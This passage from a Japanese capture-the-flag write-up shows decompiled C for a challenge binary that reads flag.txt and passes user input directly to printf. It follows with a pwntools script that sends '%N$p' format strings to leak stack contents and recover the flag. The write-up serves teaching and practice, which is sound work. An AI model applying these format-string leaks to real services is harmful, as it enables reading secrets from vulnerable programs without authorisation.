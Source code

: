   local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(local_38,0x1e,stdin);
  printf("hello ");
  printf(local_38);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
{{< / highlight >}}


<br />
以下が書いたコードです。

%0$p<br />
%1$p<br />
%2$p<br />
:<br />
のように、順番に送るコードです。


{{< highlight python "linenos=table,hl_lines=22" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context.log_level = 'critical'

# host, port = 'dctf-chall-readme.westeurope.azurecontainer.io', 7481

for i in range(0,40):
    # s = remote(host, port)
    s = process('./readme')

    s.recvuntil('your name?\n')
    s.sendline('%' + str(i) + '$p')
    # print(i)
    response = s.recv()
    lines = response.split("\n")
    for line in lines:
        if "0x" in line:
            r = line.split()
            try:
                print(p64(int(r[1], 16)))
            except:
                pass
    s.close()
{{< / highlight >}}
